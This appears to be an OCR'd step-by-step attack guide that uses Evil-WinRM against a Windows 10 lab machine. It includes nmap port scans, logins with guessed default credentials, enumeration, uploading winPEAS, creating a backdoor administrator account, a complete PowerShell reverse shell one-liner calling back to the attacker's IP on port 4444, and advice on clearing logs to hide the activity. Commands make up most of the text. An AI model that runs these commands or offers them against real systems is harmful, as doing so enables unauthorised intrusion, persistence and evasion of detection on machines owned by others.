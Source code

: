 # Processo completo com uso do evil-winrm

## Page 1

Overview:  
• Attacker (Kali)  IP: 10.10.1.3  
• Victim (Windows 10)  IP: 10.10.1.10  
• Goal : Gain remote access and control over the victim machine.  
 
Step 1: Reconnaissance  
1.1. Discover Open Ports  
The first step is to discover which ports are open on the target machine ( 10.10.1.10 ). You 
can use Nmap  to perform a quick scan for common Windows ports:  
nmap -sS -p 1-65535 -T4 10.10.1.10  
This will scan all ports on the victim and help you identify any services running, including 
WinRM  ports (5985  for HTTP and 5986  for HTTPS), SMB  ports (445), and more.  
For a quicker check on WinRM ports specifically, you can run:  
nmap -p 5985,5986 10.10.1.10  
If ports 5985 or 5986  are open, that means WinRM  is accessible, which is essential for the 
next steps.  
 
Step 2: Check WinRM Service  
2.1. Verifying WinRM  
Check if the WinRM  service is configured and accessible. The default ports for WinRM  are 
5985  (HTTP) and 5986  (HTTPS), so nmap  can help confirm that:  
nmap -p 5985,5986 10.10.1.10  
If WinRM  is open, you can attempt to authenticate using Evil-WinRM . 
 
Step 3: Gain Access with Evil -WinRM  
3.1. Install Evil -WinRM on Kali  
First, ensure Evil-WinRM  is installed on your Kali machine. You can install it by running:  
git clone https://github.com/Hackplayers/evil -winrm.git  
cd evil-winrm

## Page 2

gem install evil -winrm 
Alternatively, if you are using Kali, it can also be installed with gem directly:  
gem install evil -winrm 
3.2. Attempt to Authenticate with Credentials  
Now, let's try to authenticate using Evil-WinRM . You need valid credentials to access the 
target machine. You could attempt to login with a commonly used default username and 
password like Administrator / Password123 . 
Run the following command:  
evil-winrm -i 10.10.1.10 -u Administrator -p Password123  
If this works, you will get an interactive PowerShell session on the victim machine.  
Example output after success:  
Evil-WinRM shell v3.3  
 
Info: Establishing connection to 10.10.1.10 ...  
Info: Authenticating as Administrator ...  
 
Administrator@WIN10 -PC C:\Users\Administrator>  
If the credentials don’t work, try a few common variations or attempt to find other credentials 
through brute -forcing , password spraying , or using hashes  (more on that later).  
 
Step 4: Exploit the Target  
4.1. Basic Enumeration  
Once inside the machine, it's time to perform basic enumeration. Start by gathering system 
information and checking for potential flags or user information.  
1. Check the current user:  
2. whoami 
3. List users on the machine:  
4. net user  
You may see users like Administrator , Guest , or other users that could be useful for 
privilege escalation.  
5. Check the local groups:  
6. net localgroup administrators  
This will show you the members of the local Administrators  group, which is crucial 
for understanding potential privilege escalation paths.

## Page 3

4.2. Check for Shares and Open Ports  
Enumerate the shares available on the machine:  
net share  
You might see something like:  
Share name     Resource  
--------------------------------------------------  
C$             C: \       
ADMIN$         C: \Windows 
IPC$           \pipe\svchost 
This can give you insight into directories that are shared and might be useful for uploading or 
downloading files.  
Check for open ports and active services on the victim:  
netstat -an 
Look for services like SMB ( 445) or RDP ( 3389 ), which might provide other avenues of 
attack.  
 
Step 5: Upload Tools for Post -Exploitation  
5.1. Upload a PowerShell Script  
If you want to perform additional actions (e.g., privilege escalation, persistence), you can 
upload a PowerShell script. For example, you might upload winPEAS  or SharpUp  (to look 
for privilege escalation vectors).  
To upload winPEAS  to the victim’s desktop:  
upload /root/scripts/winPEAS.exe C: \Users\Administrator \Desktop\winPEAS.exe  
Then execute the script:  
execute C: \Users\Administrator \Desktop\winPEAS.exe  
5.2. Privilege Escalation  
winPEAS  will attempt to find common privilege escalation vulnerabilities such as insecure file 
permissions, unquoted service paths, or missing patches. If you have already identified a 
potential weakness, you can exploit it to escalate your privileges to SYSTEM .

## Page 4

For example, you could attempt to exploit unquoted service paths  or try DLL hijacking  to 
escalate to SYSTEM  privileges.  
 
Step 6: Maintain Access  
6.1. Add a New User  
Once you have escalated privileges, you may want to maintain access by creating a new user 
with administrative privileges:  
net user hacker P@ssw0rd /add  
net localgroup administrators hacker /add  
This creates a new user hacker  with a password P@ssw0rd  and adds them to the 
Administrators  group.  
6.2. Create a Reverse Shell (Optional)  
You can also create a reverse shell for persistent access. Use PowerShell to create a reverse 
shell that connects back to your Kali machine.  
For example, create a PowerShell reverse shell using Netcat : 
execute powershell -Command "$client = New -Object 
System.Net.Sockets.TCPClient('10.10.1.3',4444);$stream = 
$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = 
$stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data = (New -Object -TypeName 
System.Tex t.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 
2>&1 | Out -String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> 
';$sendbyte = 
([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$se
ndbyte.Length);$stream.Flush()}"  
This will create a reverse shell that connects back to your Kali machine on port 4444.  
 
Step 7: Clean Up (Optional)  
Before leaving, ensure you remove any traces of your attack by:  
1. Removing uploaded tools : 
2. del C:\Users\Administrator \Desktop\winPEAS.exe  
3. Deleting the backdoor user : 
4. net user hacker /delete  
5. Clearing logs  (if applicable):  
You may also clear event logs or other traces of your activity using PowerShell or 
other tools.

## Page 5

Conclusion:  
In this step -by-step process, you learned how to:  
1. Scan for open WinRM ports.  
2. Use Evil -WinRM  to authenticate and gain a PowerShell shell.  
3. Enumerate users and groups to understand the system.  
4. Upload tools for privilege escalation.  
5. Maintain access by creating a new user or reverse shell.  
This process assumes you have basic credentials or the ability to guess/crack passwords. If 
you don't have valid credentials, other techniques like brute -forcing or exploiting weaknesses 
in the Windows configuration might be needed (for example, SMB or RDP  vulnerabilities).
